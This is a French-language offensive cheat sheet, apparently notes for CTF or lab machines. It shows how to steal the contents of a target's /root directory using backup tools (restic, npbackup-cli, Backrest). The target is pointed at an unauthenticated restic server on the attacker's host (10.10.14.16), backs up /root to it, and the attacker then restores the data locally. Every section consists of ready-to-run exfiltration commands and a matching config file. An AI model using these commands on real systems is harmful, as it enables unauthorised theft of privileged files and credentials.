 
Quelque soit le la techno utilisée, l'idée est de :

1. Monter un serveur restic sur la machine de l'attaquant.
2. Initialiser notre serveur restic comme repo de backup depuis la target.
3. Effectuer la sauvegarde vers notre repo.
4. Restaurer la sauvegarde depuis la machine de l'attaquant.


[[#RESTIC]]
[[#NPBACKUP-CLI]]
[[#BACKREST]]

---
# RESTIC

### Depuis la machine de l'attaquant

1. Installer le client restic

```
sudo apt install restic
```

2. Télécharger rest-server afin de monter un serveur restic -> https://github.com/restic/rest-server/releases/

3. Lancer le server restic en écoute sur le port 8000

```sh
mkdir backups
./rest-server --listen ":8000" --path ./backups --no-auth
```


### Depuis la target

3. Initialiser un répertoire de Backup vers notre serveur restic et definir un mot de passe

```sh
restic init -r rest:http://10.10.14.16:8000
```

4. Sauvegarder un dossier vers notre repo

```sh
restic backup /root -r rest:http://10.10.14.16:8000
```

5. Récupérer l'id correspondant au backup réalisé

```sh
restic snapshots -r rest:http://10.10.14.16:8000
```


### Depuis la machine de l'attaquant

6. Restaurer le backup avec son ID vers un répertoire.

```sh
mkdir restore
restic restore <id> -r rest:http://10.10.14.16:8000 --target ./restore
```

---
# NPBACKUP-CLI

> [!TIP]
> Basé sur la techno restic

### Depuis la machine de l'attaquant

1. Installer le client restic

```
sudo apt install restic
```

2. Télécharger rest-server afin de monter un serveur restic -> https://github.com/restic/rest-server/releases/

3. Lancer le server restic en écoute sur le port 8000

```sh
mkdir backups
./rest-server --listen ":8000" --path ./backups --no-auth
```


### Depuis la target

4. Créer fichier de configuration npbackup.conf suivant avec notre repo de backup et le répertoire à sauvegarder

npbackup.conf

```
conf_version: 3.0.1
audience: public
repos:
  default:
    repo_uri: 
      rest:http://10.10.14.16:8000 # Notre repertoire de backup
    repo_group: default_group
    backup_opts:
      paths:
      - /root # Repertoire à sauvegarder
      source_type: folder_list
      exclude_files_larger_than: 0.0
    repo_opts:
      repo_password: 
        password
      retention_policy: {}
      prune_max_unused: 0
    prometheus: {}
    env: {}
    is_protected: false
groups:
  default_group:
    backup_opts:
      paths: []
      source_type:
      stdin_from_command:
      stdin_filename:
      tags: []
      compression: auto
      use_fs_snapshot: true
      ignore_cloud_files: true
      one_file_system: false
      priority: low
      exclude_caches: true
      excludes_case_ignore: false
      exclude_files:
      - excludes/generic_excluded_extensions
      - excludes/generic_excludes
      - excludes/windows_excludes
      - excludes/linux_excludes
      exclude_patterns: []
      exclude_files_larger_than:
      additional_parameters:
      additional_backup_only_parameters:
      minimum_backup_size_error: 10 MiB
      pre_exec_commands: []
      pre_exec_per_command_timeout: 3600
      pre_exec_failure_is_fatal: false
      post_exec_commands: []
      post_exec_per_command_timeout: 3600
      post_exec_failure_is_fatal: false
      post_exec_execute_even_on_backup_error: true
      post_backup_housekeeping_percent_chance: 0
      post_backup_housekeeping_interval: 0
    repo_opts:
      repo_password:
      repo_password_command:
      minimum_backup_age: 0
      upload_speed: 800 Mib
      download_speed: 0 Mib
      backend_connections: 0
      retention_policy:
        last: 5
        hourly: 72
        daily: 30
        weekly: 4
        monthly: 12
        yearly: 3
        tags: []
        keep_within: true
        group_by_host: true
        group_by_tags: true
        group_by_paths: false
        ntp_server:
      prune_max_unused: 0 B
      prune_max_repack_size:
    prometheus:
      backup_job: ${MACHINE_ID}
      group: ${MACHINE_GROUP}
    env:
      env_variables: {}
      encrypted_env_variables: {}
    is_protected: false
identity:
  machine_id: ${HOSTNAME}__blw0
  machine_group:
global_prometheus:
  metrics: false
  instance: ${MACHINE_ID}
  destination:
  http_username:
  http_password:
  additional_labels: {}
  no_cert_verify: false
global_options:
  auto_upgrade: false
  auto_upgrade_percent_chance: 5
  auto_upgrade_interval: 15
  auto_upgrade_server_url:
  auto_upgrade_server_username:
  auto_upgrade_server_password:
  auto_upgrade_host_identity: ${MACHINE_ID}
  auto_upgrade_group: ${MACHINE_GROUP}
```

5. Initialiser le repo avec le fichier conf

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf --init
```

6. Effectuer un backup

```
sudo /usr/local/bin/npbackup-cli -c npbackup.conf -b
```

### Depuis la machine de l'attaquant

7. Afficher les snapshots et récupérer l'id du backup réalisé.

```sh
restic snapshots -r rest:http://10.10.14.16:8000
```

8. Restaurer le backup avec son ID vers un répertoire.

```sh
mkdir restore
restic restore <id> -r rest:http://10.10.14.16:8000 --target ./restore
```


---
# BACKREST

> [!TIP]
> Basé sur la techno restic


### Depuis la machine de l'attaquant

1. Installer le client restic

```
sudo apt install restic
```

2. Télécharger rest-server afin de monter un serveur restic -> https://github.com/restic/rest-server/releases/

3. Lancer le server restic en écoute sur le port 8000

```sh
mkdir backups
./rest-server --listen ":8000" --path ./backups --no-auth
```

### Depuis Backrest

4. Cliquer sur add-repo
5. Initialiser notre repo

![[Pasted image 20250825094339.png]]
6. Exécuter la commande ``backup /root``

![[Pasted image 20250825094452.png]]


### Depuis la machine de l'attaquant

7. Afficher les snapshots et récupérer l'id du backup réalisé.

```sh
restic snapshots -r rest:http://10.10.14.16:8000
```

8. Restaurer le backup avec son ID vers un répertoire.

```sh
mkdir restore
restic restore <id> -r rest:http://10.10.14.16:8000 --target ./restore
```